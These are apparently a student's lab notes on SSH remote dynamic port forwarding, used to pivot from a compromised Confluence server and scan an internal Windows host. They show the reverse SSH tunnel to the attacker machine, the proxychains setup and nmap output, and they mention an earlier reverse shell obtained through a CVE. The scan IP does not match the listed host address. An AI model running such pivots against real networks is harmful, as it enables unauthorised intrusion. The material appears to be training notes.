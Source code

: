 > OpenSSH _client_ needs to be version 7.6 or above to use it - the server version doesn't matter.

#### Extended Scenario
![](remote_dynamic_port_forward.png)

- Windows server (MULTISERVER03) on the DMZ network.
- Firewall prevents
	- Connecting to any port on MULTISERVER03
	- Any port other than TCP/8090 on CONFLUENCE01 from our Kali machine
- Can SSH _out_ from CONFLUENCE01 _to our Kali machine_, then create a remote dynamic port forward so we can start enumerating MULTISERVER03 from Kali.:
	- SSH session is initiated from CONFLUENCE01, connecting to Kali
	- Kali is running an SSH server
	- SOCKS proxy port is then bound to the Kali machine on TCP/9998.
	- Packets sent to that port will be pushed back through the SSH tunnel to CONFLUENCE01
	- Packets are forwarded based on where they're addressed - in this case, MULTISERVER03.

#### Execution

CONFLUENCE01 - **192.168.228.63**
PGDATABASE01 - **10.4.228.215**
MULTISERVER03 - **192.168.228.64**

- Per previous, gain reverse shell on CONFLUENCE01 via curl & CVE vuln
- Upgrade to TTY
- Start SSH Dynamic Remote Port Forward
```bash
ssh -N -R 9998 kali@192.168.45.196
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '192.168.45.196 (192.168.45.196)' can't be established.
	ECDSA key fingerprint is SHA256:Z6AWTPQLtEMVjOkkRmrchK5U1cx9L6Dek+5Gx8+icic.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	kali@192.168.45.196's password:
```

- Edit proxychains config file and exploit
```bash
sudo vim /etc/proxychains4.conf
	# Last line
	socks5 127.0.0.1 9998


proxychains nmap -vvv -sT -Pn -n --top-ports=20 10.4.228.64
	...
	PORT     STATE  SERVICE       REASON
	21/tcp   closed ftp           conn-refused
	22/tcp   closed ssh           conn-refused
	23/tcp   closed telnet        conn-refused
	25/tcp   closed smtp          conn-refused
	53/tcp   open   domain        syn-ack
	80/tcp   open   http          syn-ack
	110/tcp  closed pop3          conn-refused
	111/tcp  closed rpcbind       conn-refused
	135/tcp  open   msrpc         syn-ack
	139/tcp  closed netbios-ssn   conn-refused
	143/tcp  closed imap          conn-refused
	443/tcp  closed https         conn-refused
	445/tcp  closed microsoft-ds  conn-refused
	993/tcp  closed imaps         conn-refused
	995/tcp  closed pop3s         conn-refused
	1723/tcp closed pptp          conn-refused
	3306/tcp closed mysql         conn-refused
	3389/tcp open   ms-wbt-server syn-ack
```